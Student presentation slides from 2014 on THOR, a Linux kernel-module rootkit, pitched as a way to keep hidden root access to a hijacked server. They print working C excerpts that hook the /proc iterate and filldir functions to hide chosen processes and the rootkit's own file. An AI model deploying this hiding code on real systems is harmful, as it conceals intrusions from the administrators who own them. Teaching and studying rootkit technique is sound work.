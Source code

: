 % THOR\
  The ~~Horrific~~ Hopefully Omnipotent Rootkit
% Alex Hirsch
  FraJo Haider
% 2014-12-01

## The Linux Kernel

\centerline{\includegraphics[width=300px]{gfx/kernel.png}} [^1]

[^1]: <http://sysplay.in/blog/linux-device-drivers/2013/02>

## Internals

\centerline{\includegraphics[width=280px]{gfx/kernel_map.png}} [^2]

[^2]: <http://en.wikipedia.org/wiki/Linux_kernel>

## Dafuq?

\centerline{\includegraphics[width=280px]{gfx/dafuq.jpg}}

## Okay Okay ... Imagine

- you are a student doing some ... ehm .. *research*
- you managed to hijack a server, acquired root privileges and now what?

- you could fool around, delete files, load some torrents, because `<INSERT
  REASON>`
- use the server as proxy to do even more ~~evil~~ *research oriented* stuff

But sooner or later the admin may recognize that the server has been
compromised, and lock you out.

## Solution: **Rootkit**

\centerline{\includegraphics[width=200px]{gfx/rootkit.jpg}}

## Main Usage

- provides backdoor
- hides suspicious activities
    - open ports
    - suspicious processes
    - files
- **hides its own presences**

## Why Kernel Module

- **more power**, kernel space > user space

In general system administration tools invoke *system calls* to retrieve
information directly from the kernel. Hence compromising the *root of
information* by overwriting certain system calls will render most
administration tools useless.

## Kernel Module Basics

- can be loaded / unloaded dynamically using `insmod` / `rmmod` as root
- can be loaded at boot
- *Linux Headers* provide an API
- communication via *files* (usually located in `/proc`)

## Problems

\centerline{\includegraphics[width=250px]{gfx/problems.jpg}}

## Problems

- few example code for up2date kernels
- Headers do not export enough, hence complete source is required
- hijacking systemcalls is not really encouraged by the developers (race
  conditions / undefined behaviour)
    - *yeah, no shit sherlock*

## Current State

- communication using file in `/proc`
- basic hiding of files by name
- basic hiding of processes by PID
- hiding of sockets ... work in progress
- working in 3.14 (Arch LTS) and 3.17 (Arch Current)

## Example: Injection `prochidder_init()`

```{.c .numberLines}
static int __init prochidder_init(void)
{
    // insert our modified iterate for /proc
    procroot = procfile->parent;
    proc_fops = (struct file_operations*)procroot->proc_fops;

    orig_proc_iterate = proc_fops->iterate;

    set_addr_rw(proc_fops);

    proc_fops->iterate = thor_proc_iterate;

    set_addr_ro(proc_fops);

    INIT_LIST_HEAD(&pid_list.list);

    return 0;
}
```

## Injection `proc_iterate()`

```{.c .numberLines}
static int thor_proc_iterate(struct file *file, struct dir_context *ctx)
{
    int ret;
    filldir_t *ctx_actor;

    // capture original filldir function
    orig_proc_filldir = ctx->actor;

    // cast away const from ctx->actor
    ctx_actor = (filldir_t*)(&ctx->actor);

    // store our filldir in ctx->actor
    *ctx_actor = thor_proc_filldir;
    ret = orig_proc_iterate(file, ctx);

    // restore original filldir
    *ctx_actor = orig_proc_filldir;

    return ret;
}
```

## new `proc_filldir()`

```{.c .numberLines}
static int thor_proc_filldir(void *buf, const char *name, int namelen,
        loff_t offset, u64 ino, unsigned d_type)
{
    struct _pid_list *tmp;

    // hide specified PIDs
    list_for_each_entry(tmp, &(pid_list.list), list)
    {
        if(0 == strcmp(name, tmp->name)) return 0;
    }

    // hide thor itself
    if (0 == strcmp(name, THOR_PROCFILE)) return 0;

    return orig_proc_filldir(buf, name, namelen, offset, ino, d_type);
}
```

## Take a look

Github: <http://git.io/ZwNdCQ>

\centerline{\includegraphics[width=150px]{gfx/qrcode.png}}
